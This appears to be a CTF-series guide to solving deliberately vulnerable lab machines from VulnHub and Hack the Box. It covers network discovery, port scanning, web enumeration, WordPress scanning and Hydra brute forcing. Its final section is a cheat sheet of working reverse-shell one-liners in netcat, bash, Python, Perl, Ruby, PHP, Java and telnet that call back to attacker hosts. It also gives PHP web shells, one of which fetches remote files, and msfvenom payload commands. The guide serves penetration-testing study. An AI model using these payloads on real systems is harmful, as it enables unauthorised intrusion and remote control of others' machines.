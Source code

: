 ********************************
CTF Series : Vulnerable Machines
********************************

This post (Work in Progress) records what we learned by doing vulnerable machines provided by `VulnHub <https://vulnhub.com>`_, `Hack the Box <https://hackthebox.eu>`_ and others. The steps below could be followed to find vulnerabilities, exploit these vulnerablities and finally become system/ root.

Once you download a virtual machines from `VulnHub <https://vulnhub.com>`_  you can run it by using virtualization software such as VMware or Virtual Box.

We would like to **thank g0tm1lk** for maintaining **Vulnhub** and the **moderators** of **HackTheBox**. Also, **shout-outs** are in order for each and every **authors of Vulnerable Machines and/ or write-ups**. Thank you for providing these awesome challenges to learn from and sharing your knowledge with the IT security community! **Thank You!!**

You generally go through the following stages when solving a vulnerable machine:

* :ref:`finding-the-ip-address`
* :ref:`port-scanning`
* :ref:`rabbit-holes`
* :ref:`from-nothing-to-unprivileged-shell`
* :ref:`unprivileged-shell-to-privileged-shell`

On this blog, we have mentioned, what can be done in each stages. Furthermore, we have also provided :ref:`tips-and-tricks` for solving vulnerable VMs. Additionally :doc:`LFF-IPS-P2-VulnerabilityAnalysis` could be referred for exploitation of any particular services (i.e. it provides information such as "If you have identified service X (like ssh, Apache tomcat, JBoss, iscsi etc.), how they can be exploited"). Lastly there are also appendixes related to :ref:`A1-Local-file-Inclusion` and :ref:`A2-File-Upload`.

.. _finding-the-ip-address:

Finding the IP address
======================

Before, exploiting any machine, we need to figure out it IP address.

Netdiscover
-----------

An active/ passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets on. 
  -r range : Scan a given range instead performing an auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface names of common Virtualization Software:

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

Example:

::

 nmap -sP/-sn 192.168.1.0/24

.. _port-scanning:

Port Scanning
=============
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. 

Common port scanning software include: Unicornscan, nmap, netcat (when nmap is not available).

Unicornscan
-----------

A port scanner that utilizes its own userland TCP/IP stack, which allows it to run asynchronous scans. It can scan 65,535 ports in a relatively shorter time frame (faster than nmap). 

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are in cidr notation like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, **a** for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for the host named gateway.

Nmap
-----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn/-sP: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. Superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

netcat 
------
Netcat might not be the best tool to use for port scanning, but it can be used quickly. Netcat scans TCP ports by default, but we can perform UDP scans as well.

TCP Scan
^^^^^^^^

For a TCP scan, the format is:

::

  nc -vvn -z xxx.xxx.xxx.xxx startport-endport
     -z flag is Zero-I/O mode (used for scanning)
     -vv will provide verbose information about the results
     -n flag allows to skip the DNS lookup

UDP Scan
^^^^^^^^

For a UDP Port Scan, we need to add -u flag which makes the format:

::

  nc -vvn -u -z xxx.xxx.xxx.xxx startport-endport


If we have windows machine without nmap, we can use `PSnmap <https://www.powershellgallery.com/packages/PSnmap/>`_


Amap - Application mapper
-------------------------

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine which application is running.

By using **amap**, we can identify which services are running on a given port. For example is there a SSL server running on port 3445? or some oracle listener on port 23?. Note that the application can also handle services that requires SSL. Therefore it will perform an SSL connect following by trying to identify the SSL-enabled protocol!  One of the vulnhub VM's for example was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 
  amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16

.. _rabbit-holes:

Rabbit Holes?
=============

There will be instances when we will not able to find anything entry point such as any open port. The section below may provide some clues how to get unstuck.

.. _listen-to-the-interface:

Listen to the interface
------------------------

Many VMs send data on random ports therefore we recommend to listen to the local interface (vboxnet0 / vmnet) on which the VM is running. This can be done by using wireshark or tcpdump. For example, one of the vulnhub VMs, performs an arp scan and sends a SYN packet on port 4444, if something is listening on that port, it sends some data.

:: 

  tcpdump -i eth0

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

While listening on port 4444, we might receive something like a base64 encoded string or some message.

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh

DNS Server
----------

If the targeted machine is running a DNS Server and we have a possible domain name, we may try to figure out A, MX, AAAA records or try zone-transfer to figure out other possible domain names.

::

 host <domain> <optional_name_server>
 host -t ns <domain>                -- Name Servers
 host -t a <domain>                 -- Address
 host -t aaaa <domain>              -- AAAA record points a domain or subdomain to an IPv6 address
 host -t mx <domain>                -- Mail Servers
 host -t soa <domain>               -- Start of Authority
 host <IP>                          -- Reverse Lookup
 host -l <Domain Name> <DNS Server> -- Domain Zone Transfer
 
 **todo add output example**

SSL Certificate
---------------

If the targetted machine is running an https server and we are getting a apache default webpage on hitting the https://IPAddress. vhosts are probably in use. Check the alt-dns-name on the ssl-certificate, create an entry in hosts file ( /etc/hosts ) and check what is being hosted on these domain names by surfing to https://alt-dns-name.

nmap service scan result for port 443 (sample)

::

 | ssl-cert: Subject: commonName=examplecorp.com/organizationName=ExampleCorp Ltd./stateOrProvinceName=Attica/countryName=IN/localityName=Mumbai/organizationalUnitName=IT/emailAddress=admin@examplecorp.com
 | Subject Alternative Name: DNS:www.examplecorp.com, DNS:admin-portal.examplecorp.com


.. _from-nothing-to-unprivileged-shell:

From Nothing to a Unprivileged Shell
====================================

At this point, we would have an idea about the different services and service version running on the system. Besides the output given by the nmap. It is also recommended to check what software is being used on the webservers (eg certain cms's)

searchsploit
------------

Exploit Database Archive Search

First, we check if the operating system and/ or the exposed services are vulnerable to exploits which are already available on the internet. For example, a vulnerable service webmin is present in one of the VM which could be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin with searchsploit, we will find different exploits available for it and we just have to use the correct one based on utility and the version matching.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************

Once we have figured out which exploit to check we can read about it by using the file-number. For example: 1997, 2017, 24574 in the above case.

::

 searchsploit -x 24674


Searchsploit even provide an option to read the nmap XML file and suggest vulnerabilities ( Requires nmap -sV -x xmlfile ).

::
  
  searchsploit
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version (e.g.: nmap -sV -oX file.xml).
                              Use "-v" (verbose) to try even more combinations


.. Tip :: If we don't manage to find an exploit for a specific version, it is recommended to check the notes of the exploits which are highlighted as they may be valid for lower versions too. For example Let's say we are searching for exploits in Example_Software version 2.1.3. However, version 2.2.2 contains multiple vulnerablities. Reading the description for 2.2.2 we find out it's valid for lower versions too.

SecLists.Org Security Mailing List Archive
------------------------------------------

There will be some days, when you won't find vulnerability with searchsploit. In this case, we should also check the `seclists.org security mailing list google search <http://seclists.org/>`_, if someone has reported any bug for that particular software that we can exploit. 

Google-Vulns
------------

It is suggested that whenever you are googling something,  you add words such as vulnerability, exploit, ctf, github, python, tool etc. to your searchterm. For example. Let's say, you are stuck in a docker or on a specific cms search for docker ctf or <cms_name> ctf/ github etc.

Webservices
-----------

If a webserver is running on a machine, we can start with running 
 
whatweb
^^^^^^^

Utilize whatweb to find what software stack a server is running.

::

 whatweb www.example.com
 http://www.example.com [200 OK] Cookies[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], Country[INDIA][IN], Email[infosecurity@zmail.example.com], Google-Analytics[Universal][UA-6386XXXXX-2], HTML5, HTTPServer[Example Webserver], HttpOnly[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], IP[XXX.XX.XX.208], JQuery[1.11.0], Kentico-CMS, Modernizr, Script[text/javascript], Title[Welcome to Example Website ][Title element contains newline(s)!], UncommonHeaders[cteonnt-length,x-cache-control-orig,x-expires-orig], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=9,IE=edge]


nikto
^^^^^
nikto - Scans a web server for known vulnerabilities. 

It will examine a web server to find potential problems and security vulnerabilities, including:

* Server and software misconfigurations
* Default files and programs
* Insecure files and programs
* Outdated servers and programs

dirb, wfuzz, dirbuster
^^^^^^^^^^^^^^^^^^^^^^

Furthermore, we can run the following programs to find any hidden directories.

* `DIRB <https://tools.kali.org/web-applications/dirb>`_ is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.
* `wfuzz <https://tools.kali.org/web-applications/wfuzz>`_ - a web application bruteforcer. Wfuzz might be useful when you are looking for webpage of a certain size. For example: Let's say, when we dirb we get 50 directories. Each directory containing an image. Most of the time, we then need to figure out which image is different. In this case, we would figure out what's the size of the normal image and hide that particular response with wfuzz.
* `Dirbuster <https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project>`_ : DirBuster is a multi threaded java application designed to brute force directories and files names on web/ application servers. 

.. Tip :: Probably, we will be using common.txt (/usr/share/wordlists/dirb/) . If it's doesn't find anything, it's better to double check with /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt which is a list of directories that where found on at least 2 different hosts when DirBuster project crawled the internet. Even if that doesn't work out, try searching with extensions such as .txt, .js, .html, .php. (.txt by default and rest application based)

.. Tip :: If using the dirb/ wfuzz wordlist doesn't result in any directories and the website contains a lot of text, it might be a good idea to use cewl to create a wordlist and utilize that as a dictionary to find hidden directories.

BurpSuite Spider
^^^^^^^^^^^^^^^^

There will be some cases when dirb/ dirbuster doesn't find anything. This happened with us on a Node.js web application. Burpsuite's spider helped in finding extra-pages which contained the credentials.


Parameter Fuzz?
^^^^^^^^^^^^^^^

Sometime, we might have a scenario where we have a website which might be protected by WAF.

::

 http://IP/example

Now, this "/example" might be a php or might be accepting a GET Parameter. In that case, we probably need to fuzz it. The hardest thing is that we can find the GET parameters by fuzzing "/example" only if you get some errors from the application, so, the goal is to fuzz using a special char as the parameter's value, something like: "/example?FUZZ=' "

::

 wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "User-Agent: SomethingNotObivousforWAF" "http://IP/example?FUZZ='"

The other things which may try is putting a valid command such as 'ls, test' so it becomes FUZZ=ls or FUZZ=test

**TODO: gobuster ??**

PUT Method
^^^^^^^^^^

Sometimes, it is also a good option to check for the various HTTP verbs that are available such as GET, PUT, DELETE, etc.
This can be done by making an OPTIONS request.

Curl can be used to check the available options (supported http verbs):

::

  curl -X OPTIONS -v http://192.168.126.129/test/
  Trying 192.168.126.129…
  Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
  > OPTIONS /test/ HTTP/1.1
  > Host: 192.168.126.129
  > User-Agent: curl/7.47.0
  > Accept: /
  >
  < HTTP/1.1 200 OK
  < DAV: 1,2
  < MS-Author-Via: DAV
  < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
  < Allow: OPTIONS, GET, HEAD, POST
  < Content-Length: 0
  < Date: Fri, 29 Apr 2016 09:41:19 GMT
  < Server: lighttpd/1.4.28
  <
  * Connection #0 to host 192.168.126.129 left intact

The PUT method allows you to upload a file. Which can help us to get a shell on the machine. There are multiple methods available for uploading a file with the PUT method mentioned on `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

A few are:

* Nmap:

 ::

   nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

* curl:

 ::

   curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

 or

 :: 

   curl -X PUT -d '

Wordpress
^^^^^^^^^

When faced with a website that makes use of the wordpress CMS one can run wpscan. Make sure you run \-\-enumerate u for enumerating usernames because by default wpscan doesn't run it. Also, scan for plugins

::

  wpsscan
    --url       | -u <target url>       The WordPress URL/domain to scan.
    --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
    --enumerate | -e [option(s)]        Enumeration.
    option :
    	u        usernames from id 1 to 10
    	u[10-20] usernames from id 10 to 20 (you must write [] chars)
    	p        plugins
    	vp       only vulnerable plugins
    	ap       all plugins (can take a long time)
    	tt       timthumbs
    	t        themes
    	vt       only vulnerable themes
    	at       all themes (can take a long time)
    	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
    	If no option is supplied, the default is "vt,tt,u,vp"

We can also use wpscan to bruteforce password for a username 

::

  wpscan --url http://192.168.1.2 --wordlist wordlist.txt --username example_username

Tips

* If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.
* The configuration of worpdress is normally speaking stored in wp-config.php. If you are able to download it, you might be luckiy and be able to loot plaintext username and passwords to database or wp-admin page. 
* If the website is vulnerable for SQL-Injection. We should be able to extract the wordpress users and their password hashes. However, if the password hash is not crackable. Probably, check the wp-posts table as it might contain some hidden posts.
* Got wordpress credentials, may be utilize `WPTerm <https://wordpress.org/plugins/wpterm/>`_ xterm-like plugin. It can be used to run non-interactive shell commands from the WordPress admin dashboard.
* If there's a custom plugin created, probably, it would be in the location

 ::

   http://IP/wp-content/plugins/custompluginname

**todo: elborate more on wp scanning and vulnerabilities?**

Names? Possible Usernames & Passwords?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
   
Sometimes, when visiting webpages, you will find possible names of the employees working in the company. It is common practice to have a username based on your first/ last name. Superkojiman has written a script `namemash.py <https://gist.githubusercontent.com/superkojiman/11076951/raw/8b0d545a30fd76cb7808554b1c6e0e26bc524d51/namemash.py>`_ which could be used to create possible usernames. However, then we are left with a large amount of potential usernames with no passwords.

If the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

* Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
* Using VRFY command:
* Using RCPT TO command:

Brute forcing: hydra
^^^^^^^^^^^^^^^^^^^^

Hydra can be used to brute force login web pages

::

  -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE  (userlist)
  -p PASS  or -P FILE try password PASS, or load several passwords from FILE  (passwordlist)
  -U        service module usage details
  -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

hydra http-post-form:

:: 

   hydra -U http-post-form

**Help for module http-post-form**

Module http-post-form requires the page and the parameters for the web form.

The parameters take three ":" separated values, plus optional values.

::

  Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]

* First is the page on the server to GET or POST to (URL).
* Second is the POST/GET variables (taken from either the browser, proxy, etc. with usernames and passwords being replaced with the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
* Third is the string that it checks for an *invalid* login (by default) Invalid condition login check can be preceded by "F=", successful condition login check must be preceded by "S=". This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
* The following parameters are optional:
  C=/page/uri     to define a different page to gather initial cookies from
  (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request ^USER^ and ^PASS^ can also be put into these headers!

 * Note: 

  * 'h' will add the user-defined header at the end regardless it's already being sent by Hydra or not.
  * 'H' will replace the value of that header if it exists, by the one supplied by the user, or add the header at the end

 * Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\). All colons that aren't option separators should be escaped (see the examples above and below). You can specify a header without escaping the colons, but that way you will not be able to put colons in the header value itself, as they will be interpreted by hydra as option separators.

Examples:

:: 

 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
 "/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"

**TODO ncrack?**

Reverse Shells
--------------

Possibly, we would have figured out some vulnerability or misconfiguration in the running services which allows us to have a reverse shell using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. Mostly taken from `PentestMonkey Reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_  and `Reverse Shell Cheat sheet from HighOn.Coffee <https://highon.coffee/blog/reverse-shell-cheat-sheet/>`_ and more.

netcat (nc)
^^^^^^^^^^^

* with the -e option

 ::

   nc -e /bin/sh 10.0.0.1 1234

* without -e option

 ::

   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

PHP
^^^

* **PHP Shell**

 We can create a new file say (shell.php) on the server containing

 :: 

   <?php system($_GET["cmd"]); ?>

 or

 :: 

   <?php echo shell_exec($_GET["cmd"]); ?>

 or

 ::

   <? passthru($_GET["cmd"]); ?>

 which can then be accessed by

 :: 

  http://IP/shell.php?cmd=id

 If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

 ::

  curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) This posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Pass the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".

 If you also want to provide upload functionality (Imagine, if we need to upload nc64.exe on Windows or other-binaries on linux), we can put the below code in the php file

 ::

  <?php 
   if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
   };
   if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   }
  ?>

  
* **PHP Meterpreter**

 We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

**todo explain how to set up a multi handler**

 ::

  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

* **PHP Reverse Shell**

 The code below assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

 :: 

  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

 The above can be connected to by listening on port 1337 by using nc

Weevely
^^^^^^^

Weevely also generates a webshell

:: 

  weevely generate password /tmp/payload.php

which can be called by

:: 

  weevely http://192.168.1.2/location_of_payload password

However, it wasn't as useful as php meterpreter or a reverse shell.


Ruby
^^^^

:: 

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Perl
^^^^

.. code-block :: bash 

  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
^^^^^^

TCP

::  

  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

UDP

::

 import os,pty,socket;s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(("10.10.14.17", 4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE",'/dev/null');pty.spawn("/bin/sh");s.close()

Java
^^^^

.. code-block :: bash 

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()

JSP
^^^

.. code-block :: bash 

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

Bash /dev/tcp
^^^^^^^^^^^^^

If a server is listening on a port:

::

  nc -lvp port

then we can use the below to connect

Method 1: 

::
   
  /bin/bash -i >&/dev/tcp/IP/Port 0>&1

Method 2:

::

 exec 5<>/dev/tcp/IP/80
 cat <&5 | while read line; do $line 2>&5 >&5; done  

 # or:

 while read line 0<&5; do $line 2>&5 >&5; done

Method 3:

::

 0<&196;exec 196<>/dev/tcp/IP/Port; sh <&196 >&196 2>&196

 -- We may execute the above using bash -c "Aboveline "

`Information about Bash Built-in /dev/tcp File (TCP/IP) <http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip>`_

The following script fetches the front page from Google:

::

 exec 3<>/dev/tcp/www.google.com/80
 echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
 cat <&3

* The first line causes file descriptor 3 to be opened for reading and writing on the specified TCP/IP socket. This is a special form of the exec statement. From the bash man page:

 ::

  exec [-cl] [-a name] [command [arguments]]

 If command is not specified, any redirections take effect in the current shell, and the return status is 0. So using exec without a command is a way to open files in the current shell.

* Second line:  After the socket is open we send our HTTP request out the socket with the echo ... >&3 command. The request consists of:

 ::

  GET / HTTP/1.1
  host: http://www.google.com
  Connection: close

 Each line is followed by a carriage-return and newline, and all the headers are followed by a blank line to signal the end of the request (this is all standard HTTP stuff).

* Third line: Next we read the response out of the socket using cat <&3, which reads the response and prints it out.

Telnet Reverse Shell
^^^^^^^^^^^^^^^^^^^^

::

 rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

 telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

XTerm
^^^^^

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the victim server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

.. code-block :: bash 

  xterm -display 10.0.0.1:1


